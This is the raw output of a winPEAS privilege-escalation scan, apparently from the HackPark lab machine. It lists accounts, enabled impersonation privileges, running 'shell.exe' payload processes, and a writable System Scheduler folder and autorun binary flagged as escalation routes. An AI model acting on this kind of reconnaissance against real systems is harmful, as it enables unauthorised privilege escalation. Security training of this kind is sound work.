ÉÍÍÍÍÍÍÍÍÍ͹ Enumerating Named Pipes
  Name
 CurrentUserPerms                                                       Sddl
  CPFATP_2288_v4.0.30319
 Blog [WriteData/CreateFiles]                                           O:S-1-5-82-2734256158-3485737692-275298378-1529073857-2789248872G:S-1-5-82-2734256158-3485737692-275298378-1529073857-2789248872D:P(A;;0x12019f;;;BA)(A;;0x12019f;;;S-1-5-82-2734256158-3485737692-275298378-1529073857-2789248872)
  eventlog
 Everyone [WriteData/CreateFiles]                                       O:LSG:LSD:P(A;;0x12019b;;;WD)(A;;CC;;;OW)(A;;0x12008f;;;S-1-5-80-880578595-1860270145-482643319-2788375705-1540778122)
  iislogpipea0625ceb-2f64-4e93-83c3-fbad4a2badd8
 Blog [AllAccess]                                                       O:S-1-5-82-2734256158-3485737692-275298378-1529073857-2789248872G:S-1-5-82-2734256158-3485737692-275298378-1529073857-2789248872D:P(A;;FA;;;SY)(A;;FA;;;S-1-5-82-2734256158-3485737692-275298378-1529073857-2789248872)
ÉÍÍÍÍÍÍÍÍÍ͹ Enumerating AMSI registered providers
ÉÍÍÍÍÍÍÍÍÍ͹ Enumerating Sysmon configuration
      You must be an administrator to run this check
ÉÍÍÍÍÍÍÍÍÍ͹ Enumerating Sysmon process creation logs (1)
      You must be an administrator to run this check
ÉÍÍÍÍÍÍÍÍÍ͹ Installed .NET versions

  CLR Versions
   4.0.30319

  .NET Versions
   4.5.51641

  .NET & AMSI (Anti-Malware Scan Interface) support
      .NET version supports AMSI     : False
      OS supports AMSI               : False
ÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍ͹ Interesting Events information ÌÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍ
ÉÍÍÍÍÍÍÍÍÍ͹ Printing Explicit Credential Events (4648) for last 30 days - A process logged on using plaintext credentials

      You must be an administrator to run this check
ÉÍÍÍÍÍÍÍÍÍ͹ Printing Account Logon Events (4624) for the last 10 days.

      You must be an administrator to run this check
ÉÍÍÍÍÍÍÍÍÍ͹ Process creation events - searching logs (EID 4688) for sensitive data.

      You must be an administrator to run this check
ÉÍÍÍÍÍÍÍÍÍ͹ PowerShell events - script block logs (EID 4104) - searching for sensitive data.

ÉÍÍÍÍÍÍÍÍÍ͹ Displaying Power off/on events for last 5 days

  10/21/2024 3:59:38 AM   :  Startup
ÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍ͹ Users Information ÌÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍ
ÉÍÍÍÍÍÍÍÍÍ͹ Users
È Check if you have some admin equivalent privileges https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#users-and-groups
  Current user: Blog
  Current groups: Everyone, Users, Service, Console Logon, Authenticated Users, This Organization, IIS_IUSRS, Local, S-1-5-82-0
   =================================================================================================
    HACKPARK\Administrator: Built-in account for administering the computer/domain
        |->Password: CanChange-Expi-Req
    HACKPARK\Guest(Disabled): Built-in account for guest access to the computer/domain
        |->Password: NotChange-NotExpi-NotReq
    HACKPARK\jeff
        |->Password: NotChange-NotExpi-Req
ÉÍÍÍÍÍÍÍÍÍ͹ Current User Idle Time
   Current User   :     IIS APPPOOL\Blog
   Idle Time      :     01h:33m:20s:718ms
ÉÍÍÍÍÍÍÍÍÍ͹ Display Tenant information (DsRegCmd.exe /status)
ÉÍÍÍÍÍÍÍÍÍ͹ Current Token privileges
È Check if you can escalate privilege using some enabled token https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#token-manipulation
    SeAssignPrimaryTokenPrivilege: DISABLED
    SeIncreaseQuotaPrivilege: DISABLED
    SeAuditPrivilege: DISABLED
    SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeImpersonatePrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeCreateGlobalPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeIncreaseWorkingSetPrivilege: DISABLED
ÉÍÍÍÍÍÍÍÍÍ͹ Clipboard text
ÉÍÍÍÍÍÍÍÍÍ͹ Logged users
    HACKPARK\Administrator
ÉÍÍÍÍÍÍÍÍÍ͹ Display information about local users
   Computer Name           :   HACKPARK
   User Name               :   Administrator
   User Id                 :   500
   Is Enabled              :   True
   User Type               :   Administrator
   Comment                 :   Built-in account for administering the computer/domain
   Last Logon              :   10/21/2024 4:00:50 AM
   Logons Count            :   25
   Password Last Set       :   8/3/2019 10:43:23 AM
   =================================================================================================
   Computer Name           :   HACKPARK
   User Name               :   Guest
   User Id                 :   501
   Is Enabled              :   False
   User Type               :   Guest
   Comment                 :   Built-in account for guest access to the computer/domain
   Last Logon              :   1/1/1970 12:00:00 AM
   Logons Count            :   0
   Password Last Set       :   1/1/1970 12:00:00 AM
   =================================================================================================
   Computer Name           :   HACKPARK
   User Name               :   jeff
   User Id                 :   1001
   Is Enabled              :   True
   User Type               :   User
   Comment                 :
   Last Logon              :   8/4/2019 11:54:52 AM
   Logons Count            :   1
   Password Last Set       :   8/4/2019 11:54:00 AM
   =================================================================================================
ÉÍÍÍÍÍÍÍÍÍ͹ RDP Sessions
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ Ever logged users
    IIS APPPOOL\.NET v4.5 Classic
    IIS APPPOOL\.NET v4.5
    HACKPARK\Administrator
    HACKPARK\jeff
ÉÍÍÍÍÍÍÍÍÍ͹ Home folders found
    C:\Users\.NET v4.5
    C:\Users\.NET v4.5 Classic
    C:\Users\Administrator
    C:\Users\All Users
    C:\Users\Default
    C:\Users\Default User
    C:\Users\jeff
    C:\Users\Public : Service [WriteData/CreateFiles]
ÉÍÍÍÍÍÍÍÍÍ͹ Looking for AutoLogon credentials
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ Password Policies
È Check for a possible brute-force
    Domain: Builtin
    SID: S-1-5-32
    MaxPasswordAge: 42.22:47:31.7437440
    MinPasswordAge: 00:00:00
    MinPasswordLength: 0
    PasswordHistoryLength: 0
    PasswordProperties: 0
   =================================================================================================
    Domain: HACKPARK
    SID: S-1-5-21-141259258-288879770-3894983326
    MaxPasswordAge: 42.00:00:00
    MinPasswordAge: 00:00:00
    MinPasswordLength: 0
    PasswordHistoryLength: 0
    PasswordProperties: DOMAIN_PASSWORD_COMPLEX
   =================================================================================================
ÉÍÍÍÍÍÍÍÍÍ͹ Print Logon Sessions
    Method:                       WMI
    Logon Server:
    Logon Server Dns Domain:
    Logon Id:                     593390
    Logon Time:
    Logon Type:                   Service
    Start Time:                   10/21/2024 4:24:39 AM
    Domain:                       IIS APPPOOL
    Authentication Package:       Negotiate
    Start Time:                   10/21/2024 4:24:39 AM
    User Name:                    Blog
    User Principal Name:
    User SID:
   =================================================================================================
ÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍ͹ Processes Information ÌÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍ
ÉÍÍÍÍÍÍÍÍÍ͹ Interesting Processes -non Microsoft-
È Check if any interesting processes for memory dump or if you could overwrite some binary running https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#running-processes
    conhost(2716)[C:\Windows\system32\conhost.exe] -- POwn: Blog
    Command Line: \??\C:\Windows\system32\conhost.exe 0x4
   =================================================================================================
    winPEASx86_ofs(2216)[c:\Windows\Temp\winPEASx86_ofs.exe] -- POwn: Blog -- isDotNet
    Permissions: Blog [AllAccess]
    Command Line: .\winPEASx86_ofs.exe
   =================================================================================================
    shell(1404)[c:\Windows\Temp\shell.exe] -- POwn: Blog
    Permissions: Blog [AllAccess]
    Command Line: .\shell.exe
   =================================================================================================
    w3wp(2288)[c:\windows\system32\inetsrv\w3wp.exe] -- POwn: Blog
    Command Line: c:\windows\system32\inetsrv\w3wp.exe -ap "Blog" -v "v4.0" -l "webengine4.dll" -a \\.\pipe\iisipm947b1acc-e1a8-463e-a169-a07bbcc6379b -h "C:\inetpub\temp\apppools\Blog\Blog.config" -w "" -m 0 -t 20 -ta 0
   =================================================================================================
    conhost(1952)[C:\Windows\system32\conhost.exe] -- POwn: Blog
    Command Line: \??\C:\Windows\system32\conhost.exe 0x4
   =================================================================================================
    cmd(1824)[C:\Windows\SYSTEM32\cmd.exe] -- POwn: Blog
    Command Line: "cmd.exe"
   =================================================================================================
    conhost(2180)[C:\Windows\system32\conhost.exe] -- POwn: Blog
    Command Line: \??\C:\Windows\system32\conhost.exe 0x4
   =================================================================================================
    shell(2092)[c:\Windows\Temp\shell.exe] -- POwn: Blog
    Permissions: Blog [AllAccess]
    Command Line: .\shell.exe
   =================================================================================================
    conhost(488)[C:\Windows\system32\conhost.exe] -- POwn: Blog
    Command Line: \??\C:\Windows\system32\conhost.exe 0x4
   =================================================================================================
    powershell(1108)[C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe] -- POwn: Blog
    Command Line: powershell
   =================================================================================================
    shell(1896)[c:\Windows\Temp\shell.exe] -- POwn: Blog
    Permissions: Blog [AllAccess]
    Command Line: .\shell.exe
   =================================================================================================
    conhost(836)[C:\Windows\system32\conhost.exe] -- POwn: Blog
    Command Line: \??\C:\Windows\system32\conhost.exe 0x4
   =================================================================================================
    cmd(652)[C:\Windows\SYSTEM32\cmd.exe] -- POwn: Blog
    Command Line: "cmd.exe"
   =================================================================================================
    cmd(1904)[C:\Windows\SYSTEM32\cmd.exe] -- POwn: Blog
    Command Line: "cmd.exe"
   =================================================================================================
    shell(820)[c:\Windows\Temp\shell.exe] -- POwn: Blog
    Permissions: Blog [AllAccess]
    Command Line: .\shell.exe
   =================================================================================================
    cmd(2860)[C:\Windows\SYSTEM32\cmd.exe] -- POwn: Blog
    Command Line: "cmd.exe"
   =================================================================================================
    winPEASx86_ofs(2624)[c:\Windows\Temp\winPEASx86_ofs.exe] -- POwn: Blog -- isDotNet
    Permissions: Blog [AllAccess]
    Command Line: .\winPEASx86_ofs.exe
   =================================================================================================
    cmd(1876)[C:\Windows\SysWOW64\cmd.exe] -- POwn: Blog
    Command Line: C:\Windows\system32\cmd.exe
   =================================================================================================
ÉÍÍÍÍÍÍÍÍÍ͹ Vulnerable Leaked Handlers
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/leaked-handle-exploitation
È Getting Leaked Handlers, it might take some time...
    Handle: 708(key)
    Handle Owner: Pid is 2216(winPEASx86_ofs) with owner: Blog
    Reason: AllAccess
    Registry: HKLM\software\microsoft\windows\currentversion\explorer\folderdescriptions\{fdd39ad0-238f-46af-adb4-6c85480369c7}\propertybag
   =================================================================================================
    Handle: 1168(key)
    Handle Owner: Pid is 2216(winPEASx86_ofs) with owner: Blog
    Reason: SetValue
    Registry: HKLM\software\microsoft\windows\currentversion\explorer\folderdescriptions\{18989b1d-99b5-455b-841c-ab7c74e4ddfc}\propertybag
   =================================================================================================
    Handle: 1228(key)
    Handle Owner: Pid is 2216(winPEASx86_ofs) with owner: Blog
    Reason: TakeOwnership
    Registry: HKLM\software\microsoft\windows\currentversion\explorer\folderdescriptions\{33e28130-4e1e-4676-835a-98395c3bc3bb}\propertybag
   =================================================================================================
    Handle: 708(key)
    Handle Owner: Pid is 2216(winPEASx86_ofs) with owner: Blog
    Reason: AllAccess
    Registry: HKLM\software\microsoft\windows\currentversion\explorer\folderdescriptions\{fdd39ad0-238f-46af-adb4-6c85480369c7}\propertybag
   =================================================================================================
    Handle: 1168(key)
    Handle Owner: Pid is 2216(winPEASx86_ofs) with owner: Blog
    Reason: SetValue
    Registry: HKLM\software\microsoft\windows\currentversion\explorer\folderdescriptions\{18989b1d-99b5-455b-841c-ab7c74e4ddfc}\propertybag
   =================================================================================================
    Handle: 1228(key)
    Handle Owner: Pid is 2216(winPEASx86_ofs) with owner: Blog
    Reason: TakeOwnership
    Registry: HKLM\software\microsoft\windows\currentversion\explorer\folderdescriptions\{33e28130-4e1e-4676-835a-98395c3bc3bb}\propertybag
   =================================================================================================
    Handle: 708(key)
    Handle Owner: Pid is 2216(winPEASx86_ofs) with owner: Blog
    Reason: AllAccess
    Registry: HKLM\software\microsoft\windows\currentversion\explorer\folderdescriptions\{fdd39ad0-238f-46af-adb4-6c85480369c7}\propertybag
   =================================================================================================
    Handle: 1168(key)
    Handle Owner: Pid is 2216(winPEASx86_ofs) with owner: Blog
    Reason: SetValue
    Registry: HKLM\software\microsoft\windows\currentversion\explorer\folderdescriptions\{18989b1d-99b5-455b-841c-ab7c74e4ddfc}\propertybag
   =================================================================================================
    Handle: 1228(key)
    Handle Owner: Pid is 2216(winPEASx86_ofs) with owner: Blog
    Reason: TakeOwnership
    Registry: HKLM\software\microsoft\windows\currentversion\explorer\folderdescriptions\{33e28130-4e1e-4676-835a-98395c3bc3bb}\propertybag
   =================================================================================================
ÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍ͹ Services Information ÌÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍ
ÉÍÍÍÍÍÍÍÍÍ͹ Interesting Services -non Microsoft-
È Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services
    ALG(Application Layer Gateway Service)[C:\Windows\System32\alg.exe] - Manual - Stopped
    Provides support for 3rd party protocol plug-ins for Internet Connection Sharing
   =================================================================================================
    Amazon EC2Launch(Amazon Web Services, Inc. - Amazon EC2Launch)["C:\Program Files\Amazon\EC2Launch\EC2Launch.exe" service] - Auto - Stopped
    Amazon EC2Launch
   =================================================================================================
    AmazonSSMAgent(Amazon SSM Agent)["C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe"] - Auto - Running
    Amazon SSM Agent
   =================================================================================================
    AWSLiteAgent(Amazon Inc. - AWS Lite Guest Agent)[C:\Program Files\Amazon\XenTools\LiteAgent.exe] - Auto - Running - No quotes and Space detected
    AWS Lite Guest Agent
   =================================================================================================
    Ec2Config(Amazon Web Services, Inc. - Ec2Config)["C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe"] - Auto - Running - isDotNet
    Ec2 Configuration Service
   =================================================================================================
    EFS(Encrypting File System (EFS))[C:\Windows\System32\lsass.exe] - Manual - Stopped
    Provides the core file encryption technology used to store encrypted files on NTFS file system volumes. If this service is stopped or disabled, applications will be unable to access encrypted files.
   =================================================================================================
    IEEtwCollectorService(Internet Explorer ETW Collector Service)[C:\Windows\system32\IEEtwCollector.exe /V] - Manual - Stopped - No quotes and Space detected
    ETW Collector Service for Internet Explorer. When running, this service collects real time ETW events and processes them.
   =================================================================================================
    KeyIso(CNG Key Isolation)[C:\Windows\system32\lsass.exe] - Manual - Stopped
    The CNG key isolation service is hosted in the LSA process. The service provides key process isolation to private keys and associated cryptographic operations as required by the Common Criteria. The service stores and uses long-lived keys in a secure process complying with Common Criteria requirements.
   =================================================================================================
    MSDTC(Distributed Transaction Coordinator)[C:\Windows\System32\msdtc.exe] - Auto - Running
    Coordinates transactions that span multiple resource managers, such as databases, message queues, and file systems. If this service is stopped, these transactions will fail. If this service is disabled, any services that explicitly depend on it will fail to start.
   =================================================================================================
    Netlogon(Netlogon)[C:\Windows\system32\lsass.exe] - Manual - Stopped
    Maintains a secure channel between this computer and the domain controller for authenticating users and services. If this service is stopped, the computer may not authenticate users and services and the domain controller cannot register DNS records. If this service is disabled, any services that explicitly depend on it will fail to start.
   =================================================================================================
    PsShutdownSvc(Systems Internals - PsShutdown)[C:\Windows\PSSDNSVC.EXE] - Manual - Stopped
   =================================================================================================
    RpcLocator(Remote Procedure Call (RPC) Locator)[C:\Windows\system32\locator.exe] - Manual - Stopped
    In Windows 2003 and earlier versions of Windows, the Remote Procedure Call (RPC) Locator service manages the RPC name service database. In Windows Vista and later versions of Windows, this service does not provide any functionality and is present for application compatibility.
   =================================================================================================
    SamSs(Security Accounts Manager)[C:\Windows\system32\lsass.exe] - Auto - Running
    The startup of this service signals other services that the Security Accounts Manager (SAM) is ready to accept requests.  Disabling this service will prevent other services in the system from being notified when the SAM is ready, which may in turn cause those services to fail to start correctly. This service should not be disabled.
   =================================================================================================
    SNMPTRAP(SNMP Trap)[C:\Windows\System32\snmptrap.exe] - Manual - Stopped
    Receives trap messages generated by local or remote Simple Network Management Protocol (SNMP) agents and forwards the messages to SNMP management programs running on this computer. If this service is stopped, SNMP-based programs on this computer will not receive SNMP trap messages. If this service is disabled, any services that explicitly depend on it will fail to start.
   =================================================================================================
    Spooler(Print Spooler)[C:\Windows\System32\spoolsv.exe] - Auto - Running
    This service spools print jobs and handles interaction with the printer.  If you turn off this service, you won't be able to print or see your printers.
   =================================================================================================
    sppsvc(Software Protection)[C:\Windows\system32\sppsvc.exe] - Auto - Stopped
    Enables the download, installation and enforcement of digital licenses for Windows and Windows applications. If the service is disabled, the operating system and licensed applications may run in a notification mode. It is strongly recommended that you not disable the Software Protection service.
   =================================================================================================
    TieringEngineService(Storage Tiers Management)[C:\Windows\system32\TieringEngineService.exe] - Manual - Stopped
    Optimizes the placement of data in storage tiers on all tiered storage spaces in the system.
   =================================================================================================
    UI0Detect(Interactive Services Detection)[C:\Windows\system32\UI0Detect.exe] - Manual - Stopped
    Enables user notification of user input for interactive services, which enables access to dialogs created by interactive services when they appear. If this service is stopped, notifications of new interactive service dialogs will no longer function and there might not be access to interactive service dialogs. If this service is disabled, both notifications of and access to new interactive service dialogs will no longer function.
   =================================================================================================
    VaultSvc(Credential Manager)[C:\Windows\system32\lsass.exe] - Manual - Stopped
    Provides secure storage and retrieval of credentials to users, applications and security service packages.
   =================================================================================================
    vds(Virtual Disk)[C:\Windows\System32\vds.exe] - Manual - Stopped
    Provides management services for disks, volumes, file systems, and storage arrays.
   =================================================================================================
    VSS(Volume Shadow Copy)[C:\Windows\system32\vssvc.exe] - Manual - Stopped
    Manages and implements Volume Shadow Copies used for backup and other purposes. If this service is stopped, shadow copies will be unavailable for backup and the backup may fail. If this service is disabled, any services that explicitly depend on it will fail to start.
   =================================================================================================
    WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running
    File Permissions: Everyone [WriteData/CreateFiles]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles])
    System Scheduler Service Wrapper
   =================================================================================================
    wmiApSrv(WMI Performance Adapter)[C:\Windows\system32\wbem\WmiApSrv.exe] - Manual - Stopped
    Provides performance library information from Windows Management Instrumentation (WMI) providers to clients on the network. This service only runs when Performance Data Helper is activated.
   =================================================================================================
ÉÍÍÍÍÍÍÍÍÍ͹ Modifiable Services
È Check if you can modify any service https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services
    You cannot modify any service
ÉÍÍÍÍÍÍÍÍÍ͹ Looking if you can modify any service registry
È Check if you can modify the registry of a service https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-permissions
    [-] Looks like you cannot change the registry of any service...
ÉÍÍÍÍÍÍÍÍÍ͹ Checking write permissions in PATH folders (DLL Hijacking)
È Check for DLL Hijacking in PATH folders https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#dll-hijacking
    C:\Windows\system32
    C:\Windows
    C:\Windows\System32\Wbem
    C:\Windows\System32\WindowsPowerShell\v1.0\
ÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍ͹ Applications Information ÌÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍ
ÉÍÍÍÍÍÍÍÍÍ͹ Current Active Window Application
  [X] Exception: Object reference not set to an instance of an object.
ÉÍÍÍÍÍÍÍÍÍ͹ Installed Applications --Via Program Files/Uninstall registry--
È Check if you can modify installed software https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#software
    C:\Program Files (x86)\SystemScheduler(Everyone [WriteData/CreateFiles])
    C:\Program Files\Amazon
    C:\Program Files\Common Files
    C:\Program Files\desktop.ini
    C:\Program Files\Internet Explorer
    C:\Program Files\Uninstall Information
    C:\Program Files\Windows Mail
    C:\Program Files\Windows NT
    C:\Program Files\WindowsApps
    C:\Program Files\WindowsPowerShell
ÉÍÍÍÍÍÍÍÍÍ͹ Autorun Applications
È Check if you can modify other users AutoRuns binaries (Note that is normal that you can modify HKCU registry and binaries indicated there) https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries
    RegPath: HKLM\Software\Microsoft\Windows\CurrentVersion\Run
    Key: WScheduler
    Folder: C:\Program Files (x86)\SystemScheduler
    FolderPerms: Everyone [WriteData/CreateFiles]
    File: C:\PROGRA~2\SYSTEM~1\WScheduler.exe /LOGON
    FilePerms: Everyone [WriteData/CreateFiles]
   =================================================================================================
    RegPath: HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Run
    Key: WScheduler
    Folder: C:\Program Files (x86)\SystemScheduler
    FolderPerms: Everyone [WriteData/CreateFiles]
    File: C:\PROGRA~2\SYSTEM~1\WScheduler.exe /LOGON
    FilePerms: Everyone [WriteData/CreateFiles]
   =================================================================================================
    RegPath: HKLM\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
    Key: Common Startup
    Folder: C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
   =================================================================================================
    RegPath: HKLM\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
    Key: Common Startup
    Folder: C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
   =================================================================================================
    RegPath: HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
    Key: Userinit
    Folder: None (PATH Injection)
    File: userinit.exe
   =================================================================================================
    RegPath: HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
    Key: Shell
    Folder: None (PATH Injection)
    File: explorer.exe
   =================================================================================================
    RegPath: HKLM\SYSTEM\CurrentControlSet\Control\SafeBoot
    Key: AlternateShell
    Folder: None (PATH Injection)
    File: cmd.exe
   =================================================================================================
    RegPath: HKLM\Software\Microsoft\Windows NT\CurrentVersion\Font Drivers
    Key: Adobe Type Manager
    Folder: None (PATH Injection)
    File: atmfd.dll
   =================================================================================================
    RegPath: HKLM\Software\WOW6432Node\Microsoft\Windows NT\CurrentVersion\Font Drivers
    Key: Adobe Type Manager
    Folder: None (PATH Injection)
    File: atmfd.dll
   =================================================================================================
    RegPath: HKLM\Software\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: msacm.msgsm610
    Folder: None (PATH Injection)
    File: msgsm32.acm
   =================================================================================================
    RegPath: HKLM\Software\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: msacm.msg711
    Folder: None (PATH Injection)
    File: msg711.acm
   =================================================================================================
    RegPath: HKLM\Software\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: vidc.yuy2
    Folder: None (PATH Injection)
    File: msyuv.dll
   =================================================================================================
    RegPath: HKLM\Software\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: vidc.i420
    Folder: None (PATH Injection)
    File: iyuv_32.dll
   =================================================================================================
    RegPath: HKLM\Software\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: vidc.yvyu
    Folder: None (PATH Injection)
    File: msyuv.dll
   =================================================================================================
    RegPath: HKLM\Software\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: vidc.yvu9
    Folder: None (PATH Injection)
    File: tsbyuv.dll
   =================================================================================================
    RegPath: HKLM\Software\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: wavemapper
    Folder: None (PATH Injection)
    File: msacm32.drv
   =================================================================================================
    RegPath: HKLM\Software\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: midimapper
    Folder: None (PATH Injection)
    File: midimap.dll
   =================================================================================================
    RegPath: HKLM\Software\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: vidc.uyvy
    Folder: None (PATH Injection)
    File: msyuv.dll
   =================================================================================================
    RegPath: HKLM\Software\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: msacm.imaadpcm
    Folder: None (PATH Injection)
    File: imaadp32.acm
   =================================================================================================
    RegPath: HKLM\Software\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: msacm.msadpcm
    Folder: None (PATH Injection)
    File: msadp32.acm
   =================================================================================================
    RegPath: HKLM\Software\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: vidc.iyuv
    Folder: None (PATH Injection)
    File: iyuv_32.dll
   =================================================================================================
    RegPath: HKLM\Software\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: vidc.mrle
    Folder: None (PATH Injection)
    File: msrle32.dll
   =================================================================================================
    RegPath: HKLM\Software\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: vidc.msvc
    Folder: None (PATH Injection)
    File: msvidc32.dll
   =================================================================================================
    RegPath: HKLM\Software\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: wave
    Folder: None (PATH Injection)
    File: wdmaud.drv
   =================================================================================================
    RegPath: HKLM\Software\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: midi
    Folder: None (PATH Injection)
    File: wdmaud.drv
   =================================================================================================
    RegPath: HKLM\Software\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: mixer
    Folder: None (PATH Injection)
    File: wdmaud.drv
   =================================================================================================
    RegPath: HKLM\Software\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: aux
    Folder: None (PATH Injection)
    File: wdmaud.drv
   =================================================================================================
    RegPath: HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: msacm.msgsm610
    Folder: None (PATH Injection)
    File: msgsm32.acm
   =================================================================================================
    RegPath: HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: msacm.msg711
    Folder: None (PATH Injection)
    File: msg711.acm
   =================================================================================================
    RegPath: HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: vidc.yuy2
    Folder: None (PATH Injection)
    File: msyuv.dll
   =================================================================================================
    RegPath: HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: vidc.i420
    Folder: None (PATH Injection)
    File: iyuv_32.dll
   =================================================================================================
    RegPath: HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: vidc.yvyu
    Folder: None (PATH Injection)
    File: msyuv.dll
   =================================================================================================
    RegPath: HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: vidc.yvu9
    Folder: None (PATH Injection)
    File: tsbyuv.dll
   =================================================================================================
    RegPath: HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: wavemapper
    Folder: None (PATH Injection)
    File: msacm32.drv
   =================================================================================================
    RegPath: HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: midimapper
    Folder: None (PATH Injection)
    File: midimap.dll
   =================================================================================================
    RegPath: HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: vidc.uyvy
    Folder: None (PATH Injection)
    File: msyuv.dll
   =================================================================================================
    RegPath: HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: msacm.imaadpcm
    Folder: None (PATH Injection)
    File: imaadp32.acm
   =================================================================================================
    RegPath: HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: msacm.msadpcm
    Folder: None (PATH Injection)
    File: msadp32.acm
   =================================================================================================
    RegPath: HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: vidc.iyuv
    Folder: None (PATH Injection)
    File: iyuv_32.dll
   =================================================================================================
    RegPath: HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: vidc.mrle
    Folder: None (PATH Injection)
    File: msrle32.dll
   =================================================================================================
    RegPath: HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: vidc.msvc
    Folder: None (PATH Injection)
    File: msvidc32.dll
   =================================================================================================
    RegPath: HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: wave
    Folder: None (PATH Injection)
    File: wdmaud.drv
   =================================================================================================
    RegPath: HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: midi
    Folder: None (PATH Injection)
    File: wdmaud.drv
   =================================================================================================
    RegPath: HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: mixer
    Folder: None (PATH Injection)
    File: wdmaud.drv
   =================================================================================================
    RegPath: HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Drivers32
    Key: aux
    Folder: None (PATH Injection)
    File: wdmaud.drv
   =================================================================================================
    RegPath: HKLM\Software\Classes\htmlfile\shell\open\command
    Folder: C:\Program Files\Internet Explorer
